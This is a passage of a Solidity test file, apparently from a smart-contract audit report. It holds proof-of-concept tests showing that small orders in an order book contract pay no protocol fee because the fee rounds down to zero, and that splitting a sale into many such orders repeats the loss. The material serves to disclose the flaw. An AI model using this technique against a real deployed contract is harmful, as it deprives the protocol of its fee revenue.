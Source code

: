 ```solidity
        vm.startPrank(buyer);
        usdc.approve(address(book), exploitablePrice);
        book.buyOrder(orderId);
        vm.stopPrank();
​
        // --- Assertion ---
        uint256 feesAfter = book.totalFees();
        console2.log("Price per order:", exploitablePrice);
        console2.log("Protocol fees collected for this trade:", feesAfter - feesBefore);
​
        // The key assertion: The protocol failed to collect any fee for this transaction.
        assertEq(feesAfter, 0, "VULNERABILITY: Protocol should have collected a fee, but it rounded down to zero.");
    }
​
    /// @notice This test demonstrates how an attacker can exploit the rounding error repeatedly
    ///         by splitting a large sale into multiple small, fee-free orders, causing
    ///         a cumulative loss of revenue for the protocol.
    function test_PoC_CumulativeFeeLoss() public {
        uint256 numOrders = 20;
        uint256 exploitablePrice = 33; // This price results in a fee of 0
        
        // --- Execution ---
        for (uint256 i = 0; i < numOrders; i++) {
            vm.startPrank(seller);
            weth.approve(address(book), 1e17); // Sell 0.1 WETH per order
            uint256 orderId = book.createSellOrder(address(weth), 1e17, exploitablePrice, 1 days);
            vm.stopPrank();
​
            vm.startPrank(buyer);
            usdc.approve(address(book), exploitablePrice);
            book.buyOrder(orderId);
            vm.stopPrank();
        }
​
        // --- Assertion ---
        uint256 totalFeesCollected = book.totalFees();
        
        console2.log("Number of fee-free orders processed:", numOrders);
        console2.log("Total fees collected by protocol:", totalFeesCollected);
​
        // The key assertion: After 20 trades, the protocol has still earned nothing.
        assertEq(totalFeesCollected, 0, "VULNERABILITY: Protocol revenue remains zero after multiple trades due to rounding exploit.");
    }
}
```



**Successful Test Output:**
